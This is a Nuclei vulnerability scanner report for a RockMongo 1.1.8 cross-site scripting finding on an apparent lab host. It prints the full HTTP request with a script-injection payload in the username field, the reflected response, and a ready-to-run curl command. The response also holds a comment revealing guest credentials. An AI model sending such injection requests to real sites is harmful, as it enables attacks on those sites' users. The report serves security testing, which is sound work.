 ### RockMongo 1.1.8 - Cross-Site Scripting (rockmongo-xss) found on http://10.10.116.124
---
**Details**: **rockmongo-xss**  matched at http://10.10.116.124

**Protocol**: HTTP

**Full URL**: http://10.10.116.124/index.php?action=login.index

**Timestamp**: Sat Feb 18 15:05:17 +0000 GMT 2023

**Template Information**

| Key | Value |
|---|---|
| Name | RockMongo 1.1.8 - Cross-Site Scripting |
| Authors | pikpikcu |
| Tags | rockmongo, xss, packetstorm |
| Severity | high |
| Description | RockMongo 1.1.8 contains a cross-site scripting vulnerability which allows attackers to inject arbitrary JavaScript into the response returned by the application. |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVSS-Score | 7.20 |

**Request**
```http
POST /index.php?action=login.index HTTP/1.1
Host: 10.10.116.124
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36
Connection: close
Content-Length: 116
Accept: */*
Accept-Language: en
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

more=0&host=0&username=%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&password=&db=&lang=en_us&expire=3
```

**Response**
```http
HTTP/1.1 200 OK
Connection: close
Cache-Control: no-store, no-cache, must-revalidate
Content-Type: text/html; charset=UTF-8
Date: Sat, 18 Feb 2023 15:05:16 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.4.53 (Debian)
Set-Cookie: PHPSESSID=f4d2ce6454dd290dddf4703c616d7ea3; path=/
Vary: Accept-Encoding
X-Powered-By: PHP/8.0.19

 
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; margin: 0 auto; }
    </style>
</head>
<body>
    <div class="wrapper">
        <h2>Login</h2>
        <p>Please fill in your credentials to login.</p>

        
        <form action="/index.php" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control " value=""><script>alert(document.domain)</script>">
                <span class="invalid-feedback"></span>
            </div>    
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control is-invalid">
                <span class="invalid-feedback">Please enter your password.</span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <p>Don't have an account? Use the guest account! (<code>Ctrl+U</code>)</p>
            <!-- use guest:guest credentials until registration is fixed. "admin" user account is off limits!!!!! -->
        </form>
    </div>
</body>
</html>
```

References: 
- https://packetstormsecurity.com/files/136658/rockmongo-1.1.8-cross-site-request-forgery-cross-site-scripting.html

**CURL Command**
```
curl -X 'POST' -d 'more=0&host=0&username=%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&password=&db=&lang=en_us&expire=3' -H 'Accept: */*' -H 'Accept-Language: en' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36' 'http://10.10.116.124/index.php?action=login.index'
```
---
Generated by [Nuclei 2.7.9](https://github.com/projectdiscovery/nuclei)